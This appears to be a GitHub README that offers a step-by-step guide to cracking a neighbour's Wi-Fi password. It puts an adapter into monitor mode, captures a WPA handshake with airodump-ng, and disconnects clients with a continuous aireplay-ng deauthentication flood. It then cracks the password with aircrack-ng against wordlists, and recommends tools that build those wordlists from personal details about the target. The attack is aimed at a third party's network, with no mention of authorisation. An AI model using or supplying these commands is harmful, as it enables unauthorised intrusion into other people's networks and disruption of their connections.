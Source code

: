 # I. Guiding to searching for your neighbor's Wi-Fi password

## 1. Prerequisites

1. Operating Systems:
   (Choose one of these)

- Kali Linux
- Parrot Os

2. Wi-Fi adapter (support Monitor-mode) If you run your Os on a virtual machine like VMware, VirtualBox:
   (Choose one of these)

- Alfa AWUS036NHA
- Alfa AWUS036NH
- Alfa AWUS1900
- Alfa AWUS036ACH
- Panda PAU06
- Panda PAU05

## 2. Check for availability of a Wi-Fi adapter or Wi-Fi adapter recognition on the Os.

1. Plug your Wi-Fi adapter and connect to your intended Os.
   ![](./images/wifi1.png)
   ![](./images/wifi6.png)
   ![](./images/wifi2.png)
   If you have trouble with the connection, please try this command: **sudo dmesg**
2. Check the Wif-Fi adapter status

- **`ifconfig`**
  ![](./images/wifi3.png)
- **`iwconfig`**
  ![](./images/wifi4.png)
  As you can see, this Wi-Fi adapter is currently in **_Managed-mode_**.

3. Turn-on Monitor-mode:

- **sudo airmon-ng start wlan0**
  ![](./images/wifi5.png)
  ![](./images/wifi7.png)

## 3. Capture a handshake with your target Wi-Fi

1. List all Wi-Fi info around your place:
   **`sudo airodum-ng wlan0mon`**
   ![](./images/wifi8.png)
2. Capture handshake:
   | **PWR (dBm)** | **Chất lượng tín hiệu** | **Độ ổn định kết nối** |
   |-----------------|------------------------------------|-----------------------------------|
   | -30 dBm | Tín hiệu rất mạnh | Rất ổn định |
   | -50 đến -60 dBm | Tín hiệu tốt | Ổn định |
   | -60 đến -70 dBm | Tín hiệu trung bình | Đủ ổn định (có thể có gián đoạn nhỏ) |
   | -70 đến -80 dBm | Tín hiệu yếu | Không ổn định |
   | < -80 dBm | Tín hiệu rất yếu hoặc không có | Không thể kết nối |

Important:

1. Before taking the next steps, make sure that your target wifi has PWR <-70 dBm.
2. Run the two following commands at the same time.

- **sudo airodump-ng -d 'wifi bssid' -c 'wifi channel' -w 'capturefilename' wlan0mon**
  In this example, Phong Hao wifi will be the target wifi for testing.

  - **Command:** `sudo airodump-ng -d XX:YY:ZZ:00:E6:49 -c 11 -w 'test' wlan0mon`
    ![](./images/wifi9.png)

- **sudo aireplay-ng --deauth 0 -a 'mac of access point or wifi bssid' -c 'client mac address or station connected with wifi' wlan0mon**

  - **Command:** `sudo aireplay-ng --deauth 0 -a XX:YY:ZZ:00:E6:49 -c AA:BB:CC:DD:47:9E wlan0mon`
    ![](./images/wifi10.png)

    When you notice that there is a label **[ WPA handshake: AA:BB:CC:DD]**, congratulate! You got the handshake!
    **Now `Ctr+C`** turn the two commands off.

## 4. BruteForce (hashcat) or Dictionary (aircrack-ng) for searching passwords.

1. List all result files got from previous steps.
   ![](./images/wifi11.png)
2. Check the validation of the handshake file.
   **`aircrack-ng test-01.cap`**
   ![](./images/wifi12.png)
3. Dictionary attack look up the correct password

- **aircrack-ng 'file.cap' -w './link-to-password-list.txt'**
  - **`aircrack-ng test-01.cap -w /usr/share/wordlists/password-list.txt`**
    ![](./images/wifi13.png)

### **Conclusion**:

After waiting a couple of times to run, if your `password-list.txt` contains the correct password, it will show on the screen that **`KEY FOUND! [correct_password_here]`**. If not, please generate another password list file that potentially contains the target's Wi-Fi password.

## **Bonus:**

Tools for generating passwords list based on the target information.
(**_Besides Python codes_** supplied on this repo for generating birthday, phone number, these tools are recommended.)

- CeWL (Custom Word List Generator)
- PARADOX
- Crunch
- Mentalist
- Snipr
- Wordlist Creator
- SecLists
- Social-Engineer Toolkit (SET)
